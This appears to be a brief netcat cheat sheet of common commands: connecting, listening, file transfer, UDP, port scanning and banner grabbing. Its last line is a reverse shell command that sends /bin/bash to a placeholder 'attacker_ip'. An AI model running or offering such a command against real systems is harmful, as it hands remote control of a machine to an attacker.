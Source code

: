 
## ✅ Quick examples cheat list
```bash
# Simple connect
nc example.com 80

# Simple listen
nc -l -p 1234

# File send (server)
nc -l -p 4444 < myfile.gz

# File receive (client)
nc server_ip 4444 > myfile.gz

# UDP listen
nc -u -l -p 9999

# Port scan
nc -zv 192.168.1.1 20-1024

# Banner grab
echo -e "HEAD / HTTP/1.0\r\n\r\n" | nc -nv example.com 80

# Reverse shell (if supported)
nc attacker_ip 4444 -e /bin/bash
```

---

*End of cheat sheet.*
